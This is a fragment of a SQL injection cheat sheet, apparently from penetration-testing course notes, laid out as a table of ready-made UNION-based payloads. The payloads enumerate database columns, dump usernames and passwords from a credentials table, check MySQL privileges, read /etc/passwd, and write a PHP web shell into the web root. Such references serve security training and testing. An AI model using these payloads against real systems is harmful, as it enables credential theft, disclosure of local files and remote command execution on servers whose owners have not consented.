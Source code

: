 | List all columns in a specific table | `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` |
| Dump data from a table in another database | `cn' UNION select 1, username, password, 4 from dev.credentials-- -` |
| **Privileges** |  |
| Find current user | `cn' UNION SELECT 1, user(), 3, 4-- -` |
| Find if user has admin privileges | `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` |
| Find if all user privileges | `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` |
| Find which directories can be accessed through MySQL | `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` |
| **File Injection** |  |
| Read local file | `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` |
| Write a string to a local file | `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` |
| Write a web shell into the base web directory | `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` |
